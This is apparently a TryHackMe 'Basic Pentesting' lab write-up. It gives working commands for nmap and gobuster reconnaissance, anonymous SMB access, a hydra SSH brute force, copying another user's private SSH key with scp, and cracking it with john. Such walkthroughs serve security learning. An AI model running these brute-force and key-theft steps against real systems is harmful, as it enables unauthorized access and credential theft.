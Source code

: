 # Basic Pentesting | TryHackMe
1. First, nmap to the target.
`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
2. http is available and I'm going to see it.
![picture](./pictures/basic_pentesting.png)
I didn't find anything in particular.
3. I'll try gobuster.
`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```
4. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)
5. Take a look at the SMB
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.
6. I'll try to connect it to Anonymous.
`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt
`more staff.txt`
I found a user named Jan.
7. I'm going to try to do a total ssh hit on Jan with hydra.
`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`
1.Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.
8. Get kay key.
I'll try to see if I can get the kay key with scp.
`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`
The password is jan's.
I got it and I'm going to feed it to john.
`ssh2john id_rsa > hash`
Analyze with john.
`john --wordlist=rockyou.txt hash`
Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.
`chmod 600 id_rsa`
`ssh -i id_rsa kay@10.10.150.97`
The password is the one I just parsed.
If you can log in, check pass.bak and that's it.
